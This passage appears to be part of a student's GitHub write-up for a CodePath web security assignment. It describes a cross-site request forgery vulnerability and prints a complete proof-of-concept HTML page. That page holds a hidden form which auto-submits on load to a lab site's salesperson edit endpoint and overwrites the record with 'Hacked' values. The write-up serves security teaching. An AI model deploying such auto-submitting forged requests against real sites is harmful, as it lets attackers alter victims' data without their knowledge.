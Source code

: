 Vulnerability #2: CSRF

1. If we inject the external file with the form code and the values . If we execute the html form the data is automatially inserted and   displayed in the sales persons list.

<img src="https://github.com/Manchukonda/Week-8-Codepath/blob/master/CSRF.gif" width="800">

Code:
CSRF.html
	<html>
	<head>
		<title>Your Feedback</title>
		<script src="https://code.jquery.com/jquery-3.2.1.min.js"></script>
	</head>
	<body>
		<p> Site is not secured!</p>
		<style>
		#attackform {
			display: none;
		}
		</style>	
		<form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=2" method="POST"  id="attackform"  name="form">
			<input type="text" name="first_name" value="Hacked fn" /><br />
			<input type="text" name="last_name" value="Hacked ln" /><br />
			<input type="text" name="phone" value="000-000-0000" /><br />
			<input type="text" name="email" value="hh@h.h" /><br />
		</form>
		<script>
		$(function() {
			window.document.forms[0].submit(function(e) {
				console.log("Done");
			});
		});
		</script>
</html>
